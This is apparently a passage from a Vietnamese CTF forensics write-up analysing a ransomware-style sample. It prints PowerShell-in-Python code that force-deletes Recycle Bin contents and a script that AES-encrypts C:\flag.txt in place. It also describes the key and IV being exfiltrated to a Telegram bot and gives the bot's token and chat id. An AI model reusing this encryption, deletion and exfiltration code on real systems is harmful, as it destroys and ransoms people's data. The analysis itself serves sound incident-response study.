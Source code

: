 ```py
def move_to_recycle_bin(item_path):
    ps_command = f'\n    $shell = New-Object -ComObject Shell.Application\n    $folder = $shell.Namespace(0xA)\n    $folder.MoveHere("{item_path}0")\n    '
    subprocess.run(['powershell.exe', '-Command', ps_command], check=True)

def empty_recycle_bin():
    ps_command = '\n    $recycleBin = New-Object -ComObject Shell.Application\n    $binFolder = $recycleBin.Namespace(0xA)\n    $items = $binFolder.Items()\n    $items | ForEach-Object { Remove-Item $_.Path -Force -Recurse }\n    '
    subprocess.run(['powershell.exe', '-Command', ps_command], check=True)
```

Nhưng trước đó thì malware đã gửi key và iv qua telegram dùng bot token `7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0` gửi đến chat id `1617506446` để ý đến phần `'protect_content': True` trong data gửi đi, sẽ rất quan trọng khi ta muốn lấy lại key và iv mà malware gửi cho id `1617506446`. Muốn biết key và iv lấy từ đâu và sử dụng kỹ thuật mã hoá nào thì sẽ phải phân tích file `ps.ps1`

Có 2 cách để xem nội dung của `ps.ps1` thứ nhất là tải link github trên kia về, sẽ biết payload được mã hoá bằng b64, decode sẽ cho ra một đoạn code rất dài với tên biến được đặt linh tinh nhằm làm khó phân tích có thể đổi tên biến cho dễ đọc. Cách thứ 2, dành cho trường hợp cái link trên bị xoá, bởi vì malware đã thực hiện lệnh powershell trên máy nên ta có thể tìm trong thư mục `Logs` 2 file quan trọng là `Windows PowerShell.evtx` và `Microsoft-Windows-PowerShell%4Operational.evtx`. Trong operational log, filter 4104 (Execute a Remote Command) thấy một script dài 3 block, đó cũng chính là nội dung của `ps.ps1`

```powershell

$FilePath = 'C:\flag.txt'

$AesKey = New-Object System.Security.Cryptography.AesManaged
$AesKey.KeySize = 256
$AesKey.BlockSize = 128
$AesKey.GenerateKey()
$AesKey.GenerateIV()

$B64Key = [System.Convert]::ToBase64String($AesKey.Key)
$B64IV = [System.Convert]::ToBase64String($AesKey.IV)

$FileContent = [System.IO.File]::ReadAllBytes($FilePath)

$EncryptFile = $AesKey.CreateEncryptor($AesKey.Key, $AesKey.IV)
$Encrypted = $EncryptFile.TransformFinalBlock($FileContent, 0, $FileContent.Length)

$B64Encrypted = [System.Convert]::ToBase64String($Encrypted)

[System.IO.File]::WriteAllText($FilePath, $B64Encrypted)

Write-Output $B64Key
Write-Output $B64IV

$TempDir = Join-Path ([System.IO.Path]::GetTempPath()) 'encrypt'

if (!(Test-Path $TempDir)) {
    New-Item -ItemType Directory -Path $TempDir
}

$Dir1 = $TempDir
$Dir2 = $FilePath

if (!(Test-Path $Dir1)) {
    New-Item -ItemType Directory -Path $Dir1
}

$ReadFile = Get-Content -Path $Dir2 -Raw
```